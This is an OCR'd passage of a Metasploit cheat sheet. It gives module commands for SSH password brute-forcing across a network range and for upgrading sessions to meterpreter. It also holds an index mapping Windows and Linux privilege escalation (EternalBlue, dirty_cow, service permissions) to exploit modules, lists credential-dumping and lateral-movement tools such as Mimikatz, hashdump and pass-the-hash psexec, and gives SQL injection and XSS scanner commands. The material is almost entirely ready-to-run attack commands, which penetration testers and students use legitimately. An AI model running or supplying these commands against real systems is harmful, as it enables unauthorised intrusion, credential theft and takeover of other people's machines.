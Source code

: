 **SSH Lateral (Linux)**

```text
use auxiliary/scanner/ssh/ssh_login
set RHOSTS <cidr>
set USER_FILE users.txt
set PASS_FILE passwords.txt
set STOP_ON_SUCCESS true
run

use post/multi/manage/shell_to_meterpreter
set SESSION <id>
run
```

---

## 📑 Quick Reference Index

- **Windows**: service perms → `exploit/windows/local/service_permissions`; unquoted path → `trusted_service_path`; AlwaysInstallElevated → `always_install_elevated`; SeImpersonate → `getsystem`/`ms16_075_reflection`; MS17-010 → `ms17_010_eternalblue`
    
- **Linux**: dirty_cow, sudo misconfig, SUID/cron/NFS/Docker → manual or `local_exploit_suggester`
    
- **Post-Ex**: hashdump, Mimikatz, ssh_creds, autoroute
    
- **Lateral**: psexec (PTH), winrm_login, ssh_login
    

---

## 🌐 Web, Database & Wireless Modules

### Web

**SQL Injection Scanner**

```text
use auxiliary/scanner/http/sql_injection
set RHOSTS <ip>
set RPORT 80
set TARGETURI /
run
```

**XSS Scanner**

```text
use auxiliary/scanner/http/xss_scanner
set RHOSTS <ip>
set RPORT 80
set TARGETURI /
run
```
